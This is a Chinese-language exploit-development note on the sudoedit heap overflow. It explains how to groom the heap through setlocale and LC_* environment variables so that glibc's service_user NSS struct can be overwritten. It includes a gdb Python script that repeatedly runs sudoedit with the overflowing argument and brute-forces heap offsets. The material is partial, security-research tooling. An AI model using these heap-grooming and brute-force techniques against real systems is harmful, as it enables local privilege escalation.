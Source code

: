 这个结构体 这个两个结构体不好覆盖 ，怎么说呢  service_user 这个结构体涉及到一个链表结构，修改了next就回不去，下一个要解析的是systemd

如果next指针修改了就访问不到 systemd ，就算修改了 sysemd 为 X/X 也没什么用，这时候就要打乱堆的分配

然后 有个这样的

```
    setlocale(LC_ALL, "");
```

在main下面一点点

这个会为 LC_开头的 环境变量分配内存，然后free掉

这时候就可以打乱堆中的分配使得

```c
typedef struct service_user
{
  /* And the link to the next entry.  */
  struct service_user *next;
  /* Action according to result.  */
  lookup_actions actions[5];
  /* Link to the underlying library object.  */
  service_library *library;
  /* Collection of known functions.  */
  void *known;
  /* Name of the service (`files', `dns', `nis', ...).  */
  char name[0];
} service_user;c
```

这个结构体在 tcache中的bin的下面

但这个。。还是得fuzz，或者爆破

```python
import gdb
import time
import re
gdb.execute('file /usr/bin/sudoedit')
payload = "set args -s 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\\'"
gdb.execute(payload)

gdb.execute("b *0x00007ffff5b85c88")
gdb.execute("b *0x0000555555559674")
#gdb.execute("b sudo.c:155")
#gdb.execute("b *0x7ffff7ec4152")

#gdb.execute("dis 3")

for i in range(20,0x100):
    payload = 'a'*i
    gdb.execute("set environment LC_ALL C.UTF-8@"+payload)
    gdb.execute("dis 1")
    gdb.execute("r")
    gdb.execute("en 1")
    try:
        s = gdb.execute("search -s systemd",to_string=True)
        a1=int(s[32:32+12],16)
        a2=int(s[114:114+12],16)
        print("[*] "+str(i))
        print("[-] "+str(hex(a1)))
        print("[-] "+str(hex(a2)))
        print("[=] "+str(hex(int(s[114:114+12],16)-int(s[32:32+12],16))))
        if a2-a1 >0xa0:
            f= open(str(i)+'.log2','w+')
            f.write(s)
```